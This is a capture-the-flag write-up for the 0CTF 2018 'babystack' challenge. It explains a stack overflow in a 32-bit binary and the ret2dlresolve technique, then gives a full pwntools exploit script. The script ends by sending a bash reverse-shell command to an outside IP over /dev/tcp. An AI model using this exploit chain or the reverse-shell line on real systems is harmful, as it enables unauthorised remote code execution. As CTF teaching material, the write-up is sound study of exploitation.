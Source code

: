 # 0CTF 2018 Quals: Baby Stack

> Challenge link: [babystack](http://dl.0ops.net/2018/babystack.tar.gz)
>
> Category: Pwn
>
> Writeup: []()
>

Info leak is no longer required to exploit a stack overflow in 2018.

Enjoy the babystack

202.120.7.202:6666

## Protection

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Analysis

- ```pow.py```

It is a wrapper of babystack.
Add proof-of-work and limiting the length of input is ```0x100```; also pipe stdout and stderr to ```/dev/null```.

- ```babystack```

Just alarm and read buffer.

```c
ssize_t sub_804843B()
{
  char buf; // [esp+0h] [ebp-28h]

  return read(0, &buf, 0x40u);
}

int __cdecl main()
{
  alarm(0xAu);
  sub_804843B();
  return 0;
}
```

## Vulnerability

No canary found and we can read a lot of characters to buf.

- **Buffer overflow** in ```read(0, &buf, 0x40u)```

## Idea

- no output function => cannot do information leak
- no libc provided => guessing function offset maybe hard
- NX enabled => read shell code and jump to execute cannot work

According to the description, "info leak is no longer required", it means that we can use ret2dlresolve skill to pwn it!

Try to solve by the following steps:

1. use rop to read fake data structures and ret2main
2. use ret2dlresolve to call ```system("/bin/sh")```

Fake data structures:

- ```Elf32_Rel```

```
/* Relocation table entry without addend (in section of type SHT_REL).  */
typedef struct
{
  Elf32_Addr        r_offset;                /* Address */
  Elf32_Word        r_info;                        /* Relocation type and symbol index */
} Elf32_Rel;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#633

- ```Elf32_Sym```

```
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#518

Working flow about ```_dl_runtime_resolve```

```
     _dl_runtime_resolve(link_map, reloc_arg)
                                       +
          +-----------+                |
          | Elf32_Rel | <--------------+
          +-----------+
     +--+ | r_offset  |        +-----------+
     |    |  r_info   | +----> | Elf32_Sym |
     |    +-----------+        +-----------+      +----------+
     |      .rel.plt           |  st_name  | +--> | system\0 |
     |                         |           |      +----------+
     v                         +-----------+        .dynstr
+----+-----+                      .dynsym
| <system> |
+----------+
  .got.plt
```

- fake ```Elf32_Rel```
    - ```r_offset``` writable (after resolving symbol write the actual address of function)
    - ```r_info``` high 24 bits
        - ```(r_info >> 8) * 16``` point to fake ```Elf32_Sym``` (16 is size of ```Elf32_Sym```)
    - ```r_info``` low 8 bits
        - must be ```0x07``` (R_386_JMP_SLOT)

- fake ```Elf32_Sym```
    - ```.dynstr + st_name``` point to ```system``` string

Read the fake ```Elf32_Rel```、```Elf32_Sym``` structures and ret2main to call ```_dl_runtime_resolve```.

- use ```plt0```

```
Disassembly of section .plt:

080482f0 <read@plt-0x10>:                                             // plt0
 80482f0:       ff 35 04 a0 04 08       push   DWORD PTR ds:0x804a004 // push link_map
 80482f6:       ff 25 08 a0 04 08       jmp    DWORD PTR ds:0x804a008 // jmp _dl_runtime_resolve
```

We can calculate the ```reloc_arg``` to make ```.rel.plt + reloc_arg``` point to our fake structures and jump to ```plt0```, let it resolve symbol to ```system```.

After resolving the symbol, ```_dl_runtime_resolve``` will call the function.

## Exploitation

```python
#!/usr/bin/env python

from pwn import *
from hashlib import sha256
import time

# r = process('./babystack')
r = remote('202.120.7.202', 6666)

def verify():
    data = r.recvline()[:-1]
    for i in xrange(2 ** 32):
        if sha256(data + p32(i)).digest().startswith('\0\0\0'):
            break
    r.send(p32(i))
    log.info('POW is over')
    sleep(0.5)

def send(data, length):
    time.sleep(0.1)
    r.send(data.ljust(length))

plt0 = 0x80482f0
relplt = 0x80482b0
dynsym = 0x80481cc
dynstr = 0x804822c

main = 0x8048457
read_plt = 0x8048300

buf = 0x804a500

rop = flat(
        # _dl_runtime_resolve call and reloc_arg
        plt0, buf - relplt, # will resolve system
        0xdeadbeef, # return address
        buf + 36 # parameter "/bin/sh"
        )

data = flat(
        # Elf32_Rel
        buf, 0x7 | ((buf + 12 - dynsym) / 16) << 8, 0xdeadbeef, # 0xdeadbeef is padding
        # Elf32_Sym
        buf + 28 - dynstr, 0, 0, 0x12,
        'system\x00\x00',
        '/bin/sh\x00'
        )

verify()

# read data to buf
send('a' * 44 + flat(read_plt, main, 0, buf, 44), 0x40)
send(data, 44)

# use ret2dlresolve to call system("/bin/sh")
send('a' * 44 + rop, 0x40)

# make a reverse shell
send('bash -c "bash -i &>/dev/tcp/35.201.141.84/80 0>&1"', 0x100)

r.interactive()
```

```flag{return_to_dlresolve_for_warming_up}```

## Note

https://www.slideshare.net/AngelBoy1/re2dlresolve

https://www.youtube.com/watch?v=wsIvqd9YqTI
